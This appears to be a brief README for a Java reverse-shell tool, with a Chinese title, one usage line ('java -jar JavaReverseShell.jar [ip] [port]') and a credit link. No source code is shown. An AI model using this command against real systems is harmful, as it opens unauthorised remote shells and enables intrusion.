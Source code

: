 # Java 反弹shell
##

Usage：java -jar JavaReverseShell.jar [ip] [port]

（form:[jeary](http://jeary.org)）